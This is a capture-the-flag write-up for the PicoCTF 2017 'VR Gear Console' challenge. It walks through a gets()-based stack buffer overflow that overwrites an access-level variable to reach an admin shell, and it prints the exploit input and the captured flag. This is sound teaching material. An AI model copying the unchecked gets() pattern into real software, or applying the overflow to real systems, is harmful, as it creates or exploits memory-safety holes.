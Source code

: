 # VR Gear Console
Level 2 Binary Exploitation Challend in PicoCTF2017 competition
```
Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/51645e84d55d376442beaf264e0908b9

HINTS
-What happens if you read in more characters than the length of the username buffer?
-You should look at an ascii table to see what character you need to choose.
-Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
-"cat file - | vrgearconsole " will keep the pipe open for commands.
```

First let's look at the source code for the main function folder. 
```C

int main(int argc, char **argv) {
    setbuf(stdout, NULL);
    ...
    
    ...
    int access = login();

    printf("Your access level is: 0x%08x\n", access);

    if (access >= 0xff || access <= 0) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else if (access < 0x30) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else {
        printf("Login successful.\n");
        printf("You do not have permission to access this resource.\n");
        exit(1);
    }
}

```
It gets an integer from the result of login() and then tries to authenticate the user based on that integer. Let's see if there are any ways we can manipulate what the call to login() will return.

```C
int login() {
    int accessLevel = 0xff;
    char username[16];
    char password[32];
    printf("Username (max 15 characters): ");
    gets(username);
    printf("Password (max 31 characters): ");
    gets(password);

    if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 2;
    } else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 0;
    } else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
        accessLevel = 0x80;
    }

    return accessLevel;
}
```

The first thing we noticed is that login returns a variable accessLevel as opposed that is assigned in the if/else if statements as opposed to a constant. Noting the use of gets a vulnerable c function which does not prevent overflow of fields we knew to look for a buffer overflow vulnerability. The username field will overflow upward into the accessLevel variable. This can be checked by entering a string longer than 16 bytes into the username field and then observing any changes made to the accessLevel variable.

```
Username (max 15 characters): AAAABBBBCCCCDDDDEEEE
Password (max 31 characters):
Your access level is: 0x45454545
Login unsuccessful.
```

providing the console with our input, we can see that the value of accessLevel has been changed to 0x45454545, 4 bytes worth of the ascii values for 'E'. It should be noted that if we overflow the buffer with enough characters we can cause a segfault by overwriting return pointers or other important data that the program needs to operate, but this is not our goal for this challenge. 

Now we simply want the value of accessLevel to be something that will get us admin access, anything less than 0x30. To accomplish this we must enter 16 characters followed by an ascii character with a value < 0x30. We used 'tab', but many other characters work like '/' for example. I will use '/' in this writeup because it shows up easier. Then we simply cat the flag.

```
Username (max 15 characters): 1234567890123456/                                          
Password (max 31 characters):                                                            
Your access level is: 0x0000002f                                                         
Admin access granted!                                                                    
The flag is in "flag.txt".                                                               
$ cat flag.txt                                                                           
8b7ea70220f19ab662750a8710a552c4                                                         
$                                                                                        
```






